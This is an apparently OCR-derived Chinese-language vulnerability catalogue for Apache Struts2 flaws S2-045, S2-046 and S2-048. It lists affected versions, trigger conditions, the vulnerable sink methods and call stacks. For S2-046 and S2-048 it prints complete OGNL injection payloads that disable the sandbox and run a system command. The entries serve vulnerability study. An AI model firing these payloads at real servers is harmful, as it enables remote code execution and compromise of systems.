     [ 关键调用栈 ]
        -> org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest.parse()
        -> org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest.buildErrorMessage()
        -> com.opensymphony.xwork2.util.LocalizedTextUtil.findText()
        -> com.opensymphony.xwork2.util.OgnlValueStack.findValue()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()

特点

1. 漏洞触发在Struts2本身的Dispatcher层，还处于封装Request的逻辑中，连Interceptor层都还没进

### [S2-046](https://cwiki.apache.org/confluence/display/WW/S2-046) *（S2-045同源）*

触发条件

1. Struts 2.3.5 - 2.3.31, Struts 2.5 - 2.5.10

作用域

1. 任意action *（全局Dispatcher，优先于Interceptors链）*

底层G点

`LocalizedTextUtil.findText()`

    [ PoC样本 ]
        %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(@java.lang.Runtime@getRuntime().exec('calc'))}

    [ 关键调用栈 ]
        -> org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest.parse()
        -> org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest.buildErrorMessage()
        -> com.opensymphony.xwork2.util.LocalizedTextUtil.findText()
        -> com.opensymphony.xwork2.util.OgnlValueStack.findValue()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()

### [S2-048](https://cwiki.apache.org/confluence/display/WW/S2-048)

触发条件

1. Struts 2.3.x
1. 使用struts2-struts1-plugin
1. 被Struts1Action包装的action中将用户可控参数以key值设置到ActionMessage中，且信息数据回显

作用域

1. 上述条件限制的参数

底层G点

`ActionSupport.getText()`

    [ PoC样本 ]
        %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(@java.lang.Runtime@getRuntime().exec('calc'))}
